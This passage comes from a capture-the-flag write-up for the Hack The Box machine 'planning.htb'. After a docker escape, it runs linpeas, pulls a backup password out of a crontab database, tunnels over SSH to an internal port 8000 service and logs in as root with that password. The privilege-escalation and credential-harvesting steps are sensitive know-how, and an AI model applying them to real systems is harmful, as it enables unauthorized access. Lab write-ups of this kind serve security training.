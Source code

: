 
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601152513.png)

Well, we were able to escape the docker container, let's use linpeas again:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601153316.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601153429.png)

We got two interesting stuff, first, port `8000` is open inside of the machine, we can use ssh tunneling to access to it, then, we got a `crontab.db` file inside of `/opt/crontab`, let's get the db and take a look at it:

```json
cat crontab.db | jq
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```


As seen, we get a password, let's do ssh tunneling and check if there's any login page:

```
ssh -L 9000:127.0.0.1:8000 enzo@planning.htb
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250601153920.png)

As expected, we need to use the credentials:

```
root:P4ssw0rdS0pRi0T3c
```
